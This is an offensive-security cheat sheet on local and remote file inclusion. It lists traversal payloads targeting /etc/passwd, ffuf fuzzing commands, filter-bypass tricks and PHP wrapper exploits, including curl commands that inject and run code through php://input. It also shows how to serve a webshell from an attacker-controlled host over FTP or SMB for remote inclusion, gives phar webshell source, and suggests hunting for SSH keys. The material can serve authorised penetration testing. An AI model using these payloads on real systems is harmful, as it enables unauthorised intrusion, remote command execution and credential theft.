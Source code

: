 # Local file inclusion

- [Hacktricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion#file-inclusion)
- [Liffy](https://github.com/mzfr/liffy)
- [LFISuite](https://github.com/D35m0nd142/LFISuite)
- [LFiFreak](https://github.com/OsandaMalith/LFiFreak)

## Tips
 - Try URL encoding
 - Try bypassing regex by prefixing the LFI with the approved path
 - Add ~2048 times the `/.` string at the end of the URL
    -  `echo -n "../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done`
 - Try to inject null bytes `%00` to bypass extension checking (for old frameworks)
  
If LFI works but is read only, look for credentials like ssh keys.

## Wordlists

### Detection
```
seclists/Discovery/Web-Content/burp-parameter-names.txt
```

### Exploitation
```
seclists/Fuzzing/LFI/LFI-Jhaddix.txt
seclists/Discovery/Web-Content/default-web-root-directory-linux.txt
seclists/Discovery/Web-Content/default-web-root-directory-windows.txt
https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux
https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows
```

### Fuzz snippets
```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u 'http://<target>/index.php?FUZZ=value' -fs 1234
```
```bash
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u 'http://<target>/index.php?someField=FUZZ' -fs 1234
```
```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt -u 'http://<target>/index.php?someField=../../../../FUZZ/index.php' -fs 1234
```
```bash
ffuf -w ./LFI-WordList-Linux -u 'http://<target>/index.php?someField=../../../../FUZZ' -fs 1234
```

## Snippets
```bash
../../../../../../../etc/passwd
```
```bash
/../../../../../../../etc/passwd
```
```bash
..\/..\/..\/..\/..\/..\/..\/etc/passwd
```
```bash
....//....//....//....//....//....//....//etc/passwd
```
```bash
....////....////....////....////....////....////....////etc/passwd
```
```bash
....\/....\/....\/....\/....\/....\/....\/etc/passwd
```
```bash
..././..././..././..././..././..././etc/passwd
```

## PHP 
### RFI
If `allow_url_include = On`

First try to include a local file with something like `http://127.0.0.1:80/index.php`

Then try to serve on a http server a webshell and fetch it with the RFI

FTP is also worth trying, host a local server with `sudo python -m pyftpdlib -p 21` and query it with `ftp://<attacker-ip>/shelle.php&0=id` or `ftp://user:pass@<attacker-ip>/shelle.php&0=id`

Or with SMB `impacket-smbserver -smb2support share $(pwd)` with `\\<attacker-ip>\share\shell.php&0=whoami`

### base64 filter wrapper
```
php://filter/read=convert.base64-encode/resource=<page-to-load>
```

### data wrapper
```
data://text/plain;base64,PD89YCRfR0VUWzBdYD8+&0=id
```
#### allow_url_include 
Look for config
```
php://filter/read=convert.base64-encode/resource=../../../../etc/php/X.Y/apache2/php.ini
```

### input wrapper
As a POST request
```
curl -s -X POST --data '<?=`$_GET[0]`?>' "http://<target>/...?something=php://input&0=id
```
```
curl -s -X POST --data '<\?php system('id')?>' "http://<target>/...?something=php://input
```

### expect wrapper
if enabled `extension=expect`

Use this directly in the LFI `expect://id`

### zip wrapper
```
zip://./<path>/archive.jpg%23shelle.php&0=id
```

### phar wrapper

Create a webshell
```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?=`$_GET[0]`?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering()
```
```bash
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```
```
phar://./<path>/shell.jpg%2Fshell.txt&0=id
```